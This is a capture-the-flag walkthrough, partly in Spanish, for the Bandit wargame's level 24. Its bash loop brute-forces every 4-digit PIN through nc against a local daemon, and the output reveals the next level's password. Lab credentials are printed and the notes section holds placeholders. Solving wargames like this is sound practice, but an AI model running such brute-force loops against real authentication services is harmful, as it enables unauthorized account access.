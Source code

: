 # Level 24

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos de Acceso
bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución
```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar  $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```

## Notas Adicionales
|comando|descripcion|
|---|---|
|xx|xx|

## Referencias
- []()

